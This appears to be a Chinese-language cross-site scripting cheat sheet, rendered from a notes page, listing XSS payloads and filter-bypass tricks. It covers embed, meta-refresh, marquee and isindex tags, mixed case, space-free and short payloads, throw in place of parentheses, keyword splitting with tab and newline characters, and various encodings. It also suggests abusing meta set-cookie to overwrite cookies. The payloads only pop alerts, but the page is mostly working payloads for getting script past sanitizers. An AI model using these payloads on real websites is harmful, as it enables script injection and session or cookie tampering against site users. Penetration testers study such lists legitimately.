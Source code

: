 ## embed标签
```html
<embed src=javascript:alert(1)>
```
## meta标签
```html
测试发现，文章标题跑到meta标签中，那么只需要跳出当前属性再添加http-equiv=”refresh”，就可以构造一个有效地xss payload。还有一个思路，就是通过给http-equiv设置set-cookie，进一步重新设置cookie来达成一些目的。
<meta http-equiv="refresh" content="0;javascript&colon;alert(1)"/><meta http-equiv="refresh" content="0; url=data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E">
```
## marquee标签
```html
<marquee onstart="alert('1')"></marquee>
```
## isindex标签
```html
<isindex type=image src=1 onerror=alert(1)>
<isindex action=javascript:alert(1) type=image>
```
 当过滤掉javascript，alert等常见关键词，单引号，双引号，分号时，可以尝试使用以上不同的标签插入，达到弹出窗口的目的。
## 大小写绕过
`<sCript>`
## alert被过滤
可以尝试prompt和confirm
## 空格被过滤
`<img/src=""onerror=alert(2)> <svg/onload=alert(2)></svg>`
## 长度限制
```html
 <q/oncut=alert(1)>//在限制长度的地方很有效
```
## 括号被过滤
可以使用throw来抛出数据
```html
<a onmouseover="javascript:window.onerror=alert;throw 1">2</a>
<img src=x onerror="javascript:window.onerror=alert;throw 1">
```
## 过滤某些关键字
如：javascript， 可以在属性中的引号内容中使用空字符、空格、TAB换行、注释、特殊的函数，将代码行隔开。如：javas%09cript:alert()、javas%0acript:alert()、javas%0dcript:alert()，其中%0a表示换行。
## 编码绕过
十六进制编码、jsfuck编码、url编码、unicode编码
```html
<0x736372697074>alert('123')</0x736372697074>
<img src="1" onerror="alert(1)">
```
